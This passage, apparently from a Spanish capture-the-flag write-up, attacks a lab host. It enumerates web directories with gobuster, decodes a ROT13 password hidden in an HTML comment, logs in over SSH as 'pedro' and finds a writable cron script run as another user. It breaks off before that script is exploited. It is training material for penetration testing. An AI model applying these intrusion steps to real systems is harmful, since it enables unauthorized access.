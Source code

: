 ```shell
gobuster dir -u gatekeeperhr.com -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
-------------------------------------------------------------------
/spam (Status: 301) [Size: 319] [--> http://gatekeeperhr.com/spam/]
```

Sólo es fondo oscuro, por lo que vemos el código fuente. Hallamos un texto codificado, después de pasarlo por ChatGPT nos dice que está cifrado usando ROT13.

```html
<body>
    <!-- Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3' -->
</body>
```

El texto decodificado es:

```shell
La contraseña de uno de los pasantes es 'purpl3'
```

Teniendo ya, dos posibles usuarios (pedro, valentina) y una contraseña (purpl3), intentamos conectarnos por SSH. La contraseña resultó ser para el pasante **pedro**.

```shell
ssh pedro@172.17.0.2
pedro@172.17.0.2's password: purpl3
pedro@34e0296f5c5d:~$ whoami
pedro
```

También encontramos al otro pasante, valentina.

```shell
pedro@34e0296f5c5d:~$ ls -l /home
total 8
drwxrwx--- 1 pedro     pedro     4096 Feb 10 03:46 pedro
drwxrwx--- 1 valentina valentina 4096 Feb 10 03:46 valentina
```

No existen permisos asignados a nivel de sudoers de ningún tipo, no obstante, descubrimos que el usuario valentina está ejecutando un script cada 15 segundos, por lo que deducimos que existen tareas cron para dicho usuario.

```shell
pedro@34e0296f5c5d:~$ watch -n 1 ps -u valentina -f
UID          PID    PPID  C STIME TTY          TIME CMD
valenti+    4820    4816  0 15:11 ?        00:00:00 /bin/sh -c sleep 45; /opt/log_cleaner.sh
valenti+    4821    4818  0 15:11 ?        00:00:00 /bin/sh -c sleep 15; /opt/log_cleaner.sh
valenti+    4823    4821  0 15:11 ?        00:00:00 sleep 15
valenti+    4824    4820  0 15:11 ?        00:00:00 sleep 45
valenti+    4825    4817  0 15:11 ?        00:00:00 /bin/sh -c sleep 30; /opt/log_cleaner.sh
valenti+    4828    4825  0 15:11 ?        00:00:00 sleep 30
```

El script en cuestión es */opt/log_cleaner.sh*. No tenemos permisos para ejecutarlo directamente, pero tenemos permisos para su modificación.
